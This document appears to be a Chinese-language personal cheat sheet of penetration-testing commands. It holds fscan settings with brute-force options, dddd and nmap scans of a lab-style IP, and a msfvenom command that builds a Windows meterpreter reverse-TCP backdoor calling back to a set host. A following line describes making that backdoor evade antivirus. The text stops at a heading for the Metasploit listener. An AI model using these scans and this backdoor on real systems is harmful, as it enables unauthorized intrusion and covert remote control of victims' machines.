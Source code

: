 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date:
---
```

## fscan降速版
```fscan
./fscan -hf "big ip-lnut.txt" \
        -t 100 \               # 大幅降低线程数（默认600）
        -num 5 \               # 降低POC扫描速率（默认20）
        -wt 10 \               # 增加Web超时时间（默认5）
        -time 5 \              # 增加常规超时时间（默认3）
        -br 1 \                # 暴力破解线程设为1（默认1）
        -o "fscan_result.txt"  # 输出结果文件
```
## dddd可视化输出
```dddd
./dddd_linux64 -target "big ip.txt" -o "big ip.html"
```
## nmap
### nmap端口粗描
```nmap
sudo nmap -sT --min-rate 10000 -p- 10.129.40.36 -oA nmapscan/ports
```
### nmap端口详扫
```nmap
sudo nmap -sT -sV -sC -O -p80,135,445,1985 10.129.40.36 -oA nmapscan/detail
```
## msfconsole
### msf生成后门(windows)
```msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.23 LPORT=7788 -f raw -o shell.raw
```

对上面的后门进行免杀处理
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20251018201139.png)
### msf监听连接